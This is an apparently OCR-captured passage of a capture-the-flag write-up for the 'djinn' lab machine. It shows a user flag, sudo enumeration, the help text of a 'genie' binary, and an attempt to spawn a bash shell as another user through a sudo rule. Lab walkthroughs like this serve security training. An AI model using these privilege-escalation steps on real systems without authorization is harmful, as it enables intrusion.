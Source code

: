 nitish\@djinn:\~\$ cat user.txt

cat user.txt

10aay8289ptgguy1pvfa73alzusyyx3c

Privilege Escalation (Rooute \#1)
---------------------------------

### Enumerating for Possible Escalation Vector.

nitish\@djinn:/opt/80\$ sudo -l

sudo -l

Matching Defaults entries for nitish on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User nitish may run the following commands on djinn:

(sam) NOPASSWD: /usr/bin/genie

It looks like nitish can run /usr/bin/genie as the user sam.

nitish\@djinn:/opt/80\$ ls -laht /usr/bin/genie

ls -laht /usr/bin/genie

\-rwsr-x--- 1 sam nitish 71K Nov 11 19:09 /usr/bin/genie

Let's check out the help for the executable.

nitish\@djinn:/opt/80\$ genie -h

genie -h

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.

positional arguments:

wish Enter your wish

optional arguments:

\-h, --help show this help message and exit

\-g, --god pass the wish to god

\-p SHELL, --shell SHELL

Gives you shell

\-e EXEC, --exec EXEC execute command

Attempt is made to escalate with genie binary.

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/bash"

sudo -u sam /usr/bin/genie -p "/bin/bash"

